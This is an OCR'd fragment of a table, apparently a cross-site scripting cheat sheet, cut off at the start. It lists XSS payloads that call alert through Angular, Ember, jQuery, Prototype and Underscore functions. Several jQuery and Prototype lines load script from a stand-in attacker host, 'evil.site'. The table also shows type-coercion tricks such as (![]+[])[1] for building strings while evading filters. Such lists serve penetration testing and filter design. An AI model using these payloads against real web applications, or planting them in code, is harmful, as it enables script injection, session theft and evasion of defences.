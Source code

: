 |               | attribute    |                                          |
+---------------+--------------+------------------------------------------+
| Harness       | Angular      | `angular.bind(self, alert, 9)()`         |
| function      |              | `angular.element.apply(alert(9))`        |
| from a        |              |                                          |
| JavaScript    | Ember JS     | `Ember.run(null, alert, 9)`              |
| library       |              |                                          |
|               | jQuery       | `$.get('//evil.site/')`                  |
|               |              | (site serves alert(9))                 |
|               |              | `$.getScript('//evil.site/')`            |
|               |              | (site serves alert(9))                 |
|               |              | `$('#main').load('//evil.site/');`       |
|               |              | (site serves `<script>alert(9)</script>` |
|               |              | into selector, e.g. #main)               |
|               |              |                                          |
|               | Prototype    | `Prototype.K(alert)(9)`                  |
|               |              | `new Ajax.Request('//evil.site/'`)       |
|               |              |                                          |
|               | Underscore   | `_.defer(alert, 9)`                      |
|               |              | `_.delay(alert, 0, 9)`                   |
|               |              | `_.once(alert(9))`                       |
+---------------+--------------+------------------------------------------+
| Type          | 1) Boolean   | `false + "" == "false"`                  |
| coercion      | plus Object  | `![] + []`                               |
|               | converts to  |                                          |
|               | String       |                                          |
|               |              |                                          |
|               | 2) Extract   | `( false + "" )[1] == "a"`               |
|               | character    | `( ![] + [] )[1]`                        |
|               | from String  |                                          |
|               | by index     |                                          |
|               |              |                                          |
|               | 3) Compose   | `(![]+[])[1] +`                          |
|               | String from  | ` (![]+[])[2] +`                         |
|               | characters   | ` (![]+[])[4] +`                         |
|               |              | ` (!![]+[])[1] +`                        |
|               |              | ` (!![]+[])[0]`                          |
|               |              |                                          |